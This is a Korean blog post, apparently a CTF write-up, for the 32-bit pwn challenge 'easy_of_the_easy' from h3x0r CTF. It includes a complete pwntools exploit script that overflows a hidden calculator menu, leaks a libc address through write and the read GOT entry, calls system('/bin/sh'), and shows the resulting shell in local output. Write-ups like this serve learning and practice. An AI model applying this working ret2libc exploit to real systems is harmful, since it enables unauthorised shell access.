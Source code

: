```yaml
---
layout: post
title: ! "h3x0r CTF] easy_of_the_easy (pwn 300)
excerpt_separator: <!--more-->
tags:
  - CTF
  - Write-up
---
```


학기중에는 바빠서 H3x0r CTF에 참가하지 못했다. 그래서 종강한 뒤 여유가 생겨서 문제를 몇 개 풀어보고자 했다. 그런데 너무 오랫동안 포너블 문제를 풀지 않아서인가 계속 버벅대기에, 생각도 정리하고 나중에 참고할 수 있도록 블로그에 포스팅을 올리기로 결심하였다.

<!--more-->

> nc 49.236.136.140 14000
> [Download](https://h3x0r.kr/uploads/8/easy_of_the_easy)
>
> -Ho_9

문제가 매우 심플하다. 바이너리만 하나 던져준다.

> \#file easy_of_the_easy
>
> easy_of_the_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=943b5012ebc31246a545435ea3a4336795a9bb8d, not stripped

확인해보면 32bit 바이너리인걸 알 수 있다.

분석해보면 단순한 계산기 프로그램이고, 일정 조건을 만족하면 special menu를 열어주어 BOF 취약점을 트리거할 수 있게 되어있다. canary도 안 걸려있다. (걸려있어도 해결 가능할 것 같긴 하지만) 문제 자체가 포너블의 sanity check 개념인듯 하다. wrtie, read함수가 보이니까 대충 BOF로 주소 leak 해서 쉘 따면 된다.

```python
from pwn import *

PROCESS = "./easy_of_the_easy"

First_gate_addr = 0x08048801
special_menu_addr = 0x080487a0
write_plt = 0x08048452
read_got = 0x0804a00c

r = process(PROCESS)

def main () :
	global system_addr
	global binsh_addr

	make_nbytes()
	r.recvuntil("Good Luck!")
	bof()

	data = r.recvline().strip()
	system_addr = u32(data) - 0x9ad60
	binsh_addr = system_addr + 0x120c6b

	log.info(hex(system_addr))
	log.info(hex(binsh_addr))
	
	givemeshell()

	r.interactive()

def make_nbytes() :
	r.sendline("1 245686 1")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("1 1 0")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("6")
	r.recvuntil("Menu")
	r.sendline("4 1 1") # go to hidden menu

def bof() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(write_plt)
	payload += p32(special_menu_addr)
	payload += p32(0x01)
	payload += p32(read_got)
	# payload += p32(0x08048b48) # good
	payload += p32(0x04)
	r.sendline(payload)

def givemeshell() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(system_addr)
	payload += "C"*4
	payload += p32(binsh_addr)
	payload += "D"*20
	r.sendline(payload)

if __name__ == '__main__' :
	main ()
```

> root@ubuntu:~/CTF/h3x0r/easy_of_the_easy\# python local_exploit.py 
> [\+] Starting local process './easy_of_the_easy': pid 5203
> [\*] 0xf7d72da0
> [\*] 0xf7e93a0b
>
> [\*] Switching to interactive mode
>
> ​            Secret           Way          
>
> ==========================================
>
> Good Luck!$ ls
> easy_of_the_easy  local_exploit.py
> $ 



bof 해줄때 32bit 오랜만이라 그런가.. write 함수 다음에 +@ ret 적어주는걸 까먹어서 이상한 오류가 뿜뿜!! 했다. 다음부터는 주의해야지.
